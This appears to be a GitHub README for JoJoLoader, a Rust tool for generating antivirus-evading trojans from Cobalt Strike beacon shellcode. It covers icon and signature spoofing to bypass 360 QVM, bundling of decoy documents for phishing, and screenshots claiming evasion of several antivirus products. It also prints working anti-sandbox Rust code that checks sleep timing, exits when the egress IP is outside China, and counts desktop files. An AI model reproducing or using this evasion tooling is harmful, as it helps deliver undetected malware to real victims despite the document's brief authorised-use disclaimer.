 ![JoJoLoader](https://github.com/Pizz33/JoJoLoader/assets/88339946/dd259365-7334-43df-aee5-2d53d39c0fa9)

# JoJoLoader

助力红队成员一键生成免杀木马，使用rust实现 (by_hyyrent)

Help Redteam members generate Evasive Anti-virus software Trojan

更新说明
---
2024/08/04 优化免杀效果：360全家桶✔ 火绒✔ def✔

![image](https://github.com/user-attachments/assets/1708a617-5d70-47d5-8fae-da0b92399f10)

开发背景
---

由于近年使用go来开发loader越来越普遍，导致杀软对go编译程序静态查杀力度增大，尤其是某数字杀软

对之前的go免杀项目千机多次优化后，发现效果仍不太理想，决定重构转投入rust的怀抱，因此有了此项目的诞生！

使用方式
---

与之前开发的千机一样，同样是支持一键化生成，生成自动替换图标签名

生成`stageless payload`

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/49ddd939-32c3-495f-8ab7-a6f649a3a138)

把 `beacon_x64.bin` （习惯使用4.7以上版本的CS，默认名称即是，其他版本自行改名）放置在当前目录下

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/294efecb-b0bf-45cc-afac-7a107cac3b14)

点击 `一键生成.bat`，等待免杀木马生成

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/6ad29be8-7a42-4348-8606-113caee887f0)

输出免杀木马在 `output` 文件夹下，随机六位数命名

其中sign标签文件为自动替换签名后的免杀木马，添加图标和签名最大化bypassQVM

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/7b30c675-acb4-40ae-9045-1d92afbc97b7)

钓鱼场景-释放正常文档
---

贴合实战钓鱼场景，支持正常文件释放，捆绑文档存放在 `bundle` 文件夹下

默认放置打开损坏文档，实战根据需求自行修改代码

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/4ca87739-3dfc-4a07-bda0-0cf5b0c90505)

如果不需要捆绑文件，把对应行注释即可

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/7b5b4ed6-5f7f-431c-9502-be82a31dd74b)

程序图标
---

在 static 目录下放置了四个常见图标，可修改`icon.rc`对应名称进行调用

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/9480ea64-e78f-4ce3-bda7-a2a6bc451688)

免杀效果展示
---
**360和火绒**

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/b6fb7409-4560-493c-bf2e-a3198837ca70)

**360杀毒**

装了杀毒之后的360性能变强，qvm有时很玄学，如若碰到QVM情况尝试更换图标

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/bfc2da65-49e7-4a97-bb83-9c0420edb034)

**defender**

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/f6c49329-8cd9-48d7-af33-130fa165c3ee)

**微步**

项目发布时现测试，测试结果为安全

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/1ebe6cba-b85e-4964-843a-1f54a279f591)

卡巴斯基 ESET

国外edr会扫描内存，需要对bin进行二开，单靠loader局限性很大，以下测试是基于二开的bin

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/f5c66ab3-9034-49af-b01d-a7bc4bf12fc7)

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/5ce2e534-d1cb-4865-898b-6187dbf84d3d)

环境安装
---
https://www.rust-lang.org/zh-CN/tools/install

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/a1b8b73a-5545-4797-b2d3-b2605640b7a7)

下载安装相应的版本，双击运行，默认选择模式1进行安装，然后配置环境变量即可

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/bb0a690c-1703-4b49-8b43-20b70de024a8)

如若安装后编译失败运行以下命令

```
rustup default stable-x86_64-pc-windows-msvc
```

反沙箱
---
反沙箱不是越多越好，只保留比较好用的三个，兼容绝大部分环境，并且尽量避免上传沙箱后虚拟主机上线

### 流速检测 ###

```
pub fn flow_time() {
    use std::time::{Duration, Instant};
    use std::thread::sleep;

    let start_time = Instant::now();

    sleep(Duration::from_millis(5000));

    let elapsed_time = start_time.elapsed();

    if elapsed_time.as_millis() < 5000 {
        std::process::exit(1);
    }
}
```

这个函数判断时间是否在沙箱内进行加速

### 检查出口 IP ###

```
fn ip() {
    let output = Command::new("cmd")
        .args(&["/c", "curl -s https://myip.ipip.net/"])
        .creation_flags(CREATE_NO_WINDOW)
        .output()
        .expect("Failed to execute command");

    if !output.status.success() {
        std::process::exit(1);
    }

    let body = str::from_utf8(&output.stdout).expect("Failed to parse response");

    if body.contains("中国") {
    } else {
        std::process::exit(1);
    }
}
```

这个函数通过 `curl` 命令获取出口 IP，如果不在中国则退出程序

### 检查桌面文件数量 ###

```
fn check_desktop() {
    let desktop_path = get_desktop_path().expect("无法获取桌面路径");

    let entries = match fs::read_dir(&desktop_path) {
        Ok(entries) => entries,
        Err(_) => {
            std::process::exit(1);
        }
    };

    let file_count = entries.filter_map(|entry| entry.ok()).count();

    if file_count < 10 {
        std::process::exit(1);
    } else {
    }
}

fn get_desktop_path() -> Option<PathBuf> {
    let home_dir = dirs::home_dir()?;
    #[cfg(target_os = "windows")]
    return Some(home_dir.join("Desktop"));
    None
}
```
这个函数获取桌面路径并检查文件数量是否小于 10，如果小于 10 则退出程序

声明
---
- 仅限用于技术研究和获得正式授权的攻防项目，请使用者遵守《中华人民共和国网络安全法》，切勿用于任何非法活动，若将工具做其他用途，由使用者承担全部法律及连带责任，作者及发布者不承担任何法律及连带责任！

- 使用前先按照文档步骤一步一步来，报错问题自行百度解决，类似issue不予回复，感谢理解！

reference
---
代码有借鉴学习以下项目，commit当晚通宵没来得及写，现补上，另外免杀性失效自行修改代码，楼主仅提供一种思路，祝玩得开心♥

https://github.com/joaoviictorti/RustRedOps

https://github.com/xiao-zhu-zhu/RustBypassMap
